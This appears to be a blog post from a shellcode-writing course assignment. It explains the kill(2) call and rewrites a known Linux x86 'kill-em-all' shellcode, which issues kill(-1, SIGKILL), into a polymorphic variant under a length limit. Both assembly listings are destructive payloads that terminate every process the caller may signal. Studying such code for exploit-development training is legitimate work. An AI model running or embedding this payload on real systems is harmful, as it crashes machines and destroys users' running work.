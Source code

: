 The kill(2) system call prototype is:

{%highlight c%}
int kill(pid_t pid, int sig);
{%endhighlight%}

From the man page:

> If pid equals -1, then sig is sent to every process for which the calling >
> process has permission to send signals, except for process 1 (init), but see
> below.

So, our purpose is to write a C piece of code that execute a kill(-1, 9) since
9 is the SIGKILL signal.

Original code is 11 byte long. For the assignment engagement rule, the modified
code can't be longer than 150% of the orignal one, that it is 16 bytes (and an
half :-)).

{%highlight asm%}
; kill-em-all original shellcode
; http://shell-storm.org/shellcode/files/shellcode-212.php

section .text

global _start

_start:
  ; kill(-1, SIGKILL)
  push byte 37
  pop eax
  push byte -1
  pop ebx
  push byte 9
  pop ecx
  int 0x80
{%endhighlight%}

To create a first alternate version, we can separate shellcode parts in smaller ones and then rewrite in an alternative way:

* set EAX to 0x25 (that is 37 in decimal, the code to kill(2) system call as
  defined in /usr/include/i386-linux-gnu/asm/unistd_32.h)
* set EBX to -1, since we want to launch the signal to every process
* set ECX to 9, since it is the code for the SIGKILL signal (as defined in
  /usr/include/asm-generic/signal.h)
* call INT 0x80

{%highlight asm%}

section .text

global _start

_start:
	xor ebx, ebx

	mov cl, byte [data]
	mov al, byte [data+1]

	dec ebx
	int 0x80

data: 	db 0x25, 0x09
{%endhighlight%}
